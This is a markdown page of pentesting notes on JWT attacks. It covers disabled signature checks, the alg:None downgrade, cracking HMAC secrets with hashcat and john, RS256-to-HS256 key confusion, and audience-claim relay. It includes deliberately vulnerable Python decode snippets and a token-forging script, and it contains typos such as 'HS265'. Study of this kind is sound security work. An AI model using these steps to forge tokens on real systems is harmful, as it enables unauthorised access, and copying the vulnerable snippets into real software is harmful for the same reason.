 # JWT

| Header | Payload | Signature |
| ------ | ------- | --------- |
| eyhbGkpXVCJ9 | eyJzdWfQ | mATWpEnOFqwaNENrxl |
| {"alg":"sha256", "type": "JWT"} | {"username": "test", "admin" 1} | Signature |

## Signing Algorithms

### None: 
- No algorithm is used. 
- No verification

### Symmetric
- HS265
- Appends a secret value to the header 
- Appends secret value to body
- Generate hash
- Verification done by any system with knowledge of the secret key.
- Peer to peer

### Asymmetric
- RS256
- Produced by sender with private key
- Verified by receiver with public key

## Signature Verification
If the signature is not verified it is possible to verify the claims of the token.

Vulnerable code:
```py
payload = jwt.decode(token, options ={'verify_signature': False})
```

Alter the claim, and send back the token.
```sh
eyhbGkpXVCJ9.eyJzdWfQ.
```

## Downgrading to None
In some cases changing the `alg:None` will cause the verification library to return `true`

```py
header = jwt.get_unverified_header(token)
signature_algorithm = header['alg']
payload = jwt.decode(token, self.secret, algorithms=signature_algorithm)
```

## Cracking 

### Symmetric JWT token
Put the token into a file (jwt.txt):
```sh
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InvzZXIiLCJhZG1pbiI6MH0.yN1f3Rq8b26KEUYHCZbEwEk6LVzRYtbGzJMFIF8i5HY
```

Find a wordlist & crack
```sh
hashcat -m 16500 -a 0 jwt.txt jwt_wordlist.txt
john jwt.txt -w jwt_wordlist.txt --format=HMAC-SHA256
```

Use the site to alter the claim
[jwt.io](https://jwt.io)


## Signature Confusion
If an asymmetric signing algorithm is used it may be possible to downgrade it to `HS256`.  In the case the downgrade works the library would default back to using the public key as the secret which we know.

Basic downgrade example: 

Note: for this attack to work you must undo a patch in the python library.
- open `/usr/lib/python3/dist-packages/jwt/algorithms.py`
- comment out `143-`146`
- may need to remove `is_ssh_key` on `258` too

```py
import jwt

public_key = '<key>

payload = {
    'username': 'user',
    'admin': 0
}

access_token = jwt.encode(payload, public_key, algorithm='HS256')
print(access_token)
```

## Cross Service Relay Attacks
If a correct audience claim is not defined it can be exploited.

Audience claim
- Single authentication server
- Provides tokens to multiple services
- User is granted 'admin: true' claim
- If audience is not specified user can access all services




